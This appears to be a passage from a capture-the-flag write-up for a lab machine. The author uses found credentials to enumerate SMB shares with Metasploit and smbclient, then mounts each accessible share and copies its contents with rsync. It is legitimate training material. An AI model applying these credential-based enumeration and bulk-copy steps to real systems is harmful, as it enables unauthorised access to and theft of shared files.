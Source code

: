 ### [](#header-3)SMB enumeration with Metasploit
I tried to do some enumeration with this user with Metasploit SMB
Enumeration.

![](Pictures/Cascade/meta1.png)

The credentials was working and I got information back where a
list of shares was presented to me.
My next step was to try to log in to everyone of them to try to
find more information.
I ran the following command on every share:
```
smbclient -U r.thompson //10.10.10.182/<NAME OF SHARE>
```
and the shares that i could access is the following:
```
Data
NETLOGON
print$
SYSVOL
```
Now I wanted to get all the files that I could access from all
shares, so i mounted the shares, one by one, like this.
```
sudo mount.cifs //10.10.10.182/<NAME OF SHARE> -o username=r.thompson /mnt/temp/
```
```
mkdir SMB
```
```
cd SMB
```
```
mkdir <NAME OF SHARE>
```
```
cd <NAME OF SHARE>
```
```
rsync -r --progress /mnt/temp/* .
```